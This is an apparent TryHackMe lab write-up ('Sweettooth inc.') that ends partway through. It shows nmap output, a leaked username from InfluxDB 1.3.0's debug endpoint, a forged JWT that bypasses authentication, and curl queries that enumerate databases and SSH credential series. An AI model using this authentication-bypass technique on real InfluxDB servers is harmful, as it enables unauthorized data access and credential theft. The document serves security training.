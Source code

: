 # Sweettooth inc.

![image](https://user-images.githubusercontent.com/5285547/126913536-e9fa3f39-06fa-4a83-aaab-250e553042c8.png)
Link: https://tryhackme.com/room/sweettoothinc

## Desc


## Nmap

```
PORT     STATE SERVICE VERSION
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34479/tcp6  status
|   100024  1          40714/udp   status
|   100024  1          46300/tcp   status
|_  100024  1          49237/udp6  status
2222/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 b0:ce:c9:21:65:89:94:52:76:48:ce:d8:c8:fc:d4:ec (DSA)
|   2048 7e:86:88:fe:42:4e:94:48:0a:aa:da:ab:34:61:3c:6e (RSA)
|   256 04:1c:82:f6:a6:74:53:c9:c4:6f:25:37:4c:bf:8b:a8 (ECDSA)
|_  256 49:4b:dc:e6:04:07:b6:d5:ab:c0:b0:a3:42:8e:87:b5 (ED25519)
8086/tcp open  http    InfluxDB http admin 1.3.0
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
```

Enumeration gave up some credentials  
http://10.10.219.78:8086/debug/requests

![image](https://user-images.githubusercontent.com/5285547/126914960-41ce25e3-5324-43da-b78b-e4c14de0d037.png)

creds
```
o5yY6yya:127.0.0.1
```

## Directory brute

```
gobuster dir -u http://10.10.219.78:8086/  -w  /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -t 30 

/status               (Status: 204) [Size: 0]
/query                (Status: 401) [Size: 55]
/ping                 (Status: 204) [Size: 0] 
/write                (Status: 405) [Size: 19]
```
Looking this up online I came across some documentation for the API:  
https://docs.influxdata.com/influxdb/v1.3/tools/api/#write

![image](https://user-images.githubusercontent.com/5285547/126915118-8b5be70b-b0a7-4a72-be93-333aa3915a6a.png)

The same things we see. Let's try some of the commands and explore the API

```
curl http://10.10.219.78:8086/ping -v -X HEAD

*resp
< HTTP/1.1 204 No Content
< Content-Type: application/json
< Request-Id: 0cf9d36b-ed96-11eb-822a-000000000000
< X-Influxdb-Version: 1.3.0

# Influxdb-Version: 1.3.0
```

## JWT

```
GET /query HTTP/1.1
Host: 10.10.219.78:8086
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzaGFyZWRfc2VjcmV0IjoiIn0._FqCTRoFRDIK9srW-ml6Btqp5ItmIfwC7vLyiG8PqzQ
User-Agent: curl/7.74.0
Accept: */*
Connection: close
```

response
```
HTTP/1.1 401 Unauthorized
Content-Type: application/json
Request-Id: c226eacd-ed9c-11eb-9104-000000000000
Www-Authenticate: Basic realm="InfluxDB"
X-Influxdb-Version: 1.3.0
Date: Sun, 25 Jul 2021 23:05:09 GMT
Content-Length: 33
Connection: close

{"error":"signature is invalid"}

```

I found this article that helped me make a payload.  
https://www.komodosec.com/post/when-all-else-fails-find-a-0-day

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E
```

![image](https://user-images.githubusercontent.com/5285547/127043648-fd68da50-ed08-417e-8793-ee5220a4e3c9.png)

```
curl http://10.10.27.198:8086/query -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E"

{"error":"missing required parameter \"q\""}
```

```
curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E" "http://10.10.27.198:8086/query?db=mydb&pretty=true"  --data-urlencode 'q=SHOW DATABASES'

{"results":[{"statement_id":0,"series":[{"name":"databases","columns":["name"],"values":[["creds"],["docker"],["tanks"],["mixer"],["_internal"]]}]}]}
```

```
curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E" http://10.10.27.198:8086/query?db=mydb  --data-urlencode 'q=SHOW USERS'      

{"results":[{"statement_id":0,"series":[{"columns":["user","admin"],"values":[["o5yY6yya",true]]}]}]}
```

```
curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E" "http://10.10.27.198:8086/query?db=creds&pretty=true"  --data-urlencode "q=SHOW MEASUREMENTS"
{
    "results": [
        {
            "statement_id": 0,
            "series": [
                {
                    "name": "measurements",
                    "columns": [
                        "name"
                    ],
                    "values": [
                        [
                            "ssh"
                        ]
                    ]
                }
            ]
        }
    ]
}
```

```
curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E" "http://10.10.27.198:8086/query?db=creds&pretty=true"  --data-urlencode "q=SHOW SERIES"            
{
    "results": [
        {
            "statement_id": 0,
            "series": [
                {
                    "columns": [
                        "key"
                    ],
                    "values": [
                        [
                            "ssh,user=uzJk6Ry98d8C"
                        ]
                    ]
                }
            ]
        }
    ]
}
```

![image](https://user-images.githubusercontent.com/5285547/127047744-f0f9841a-e861-4d71-9b32-192249e74623.png)


```
curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E" "http://10.10.27.198:8086/query?db=creds&pretty=true"  --data-urlencode "q=SHOW SERIES ON _internal"

curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E" "http://10.10.27.198:8086/query?db=creds&pretty=true"  --data-urlencode "q=SHOW SERIES ON mixer"

curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E" "http://10.10.27.198:8086/query?db=creds&pretty=true"  --data-urlencode "q=SHOW SERIES ON tanks" 

curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjI3MzU4NzM1fQ.6jRHxl-iQD-tB41BZSDM8gVGLyVmZWI2sezgXU2Ud5E" "http://10.10.27.198:8086/query?db=creds&pretty=true"  --data-urlencode "q=SHOW SERIES ON docker"
```
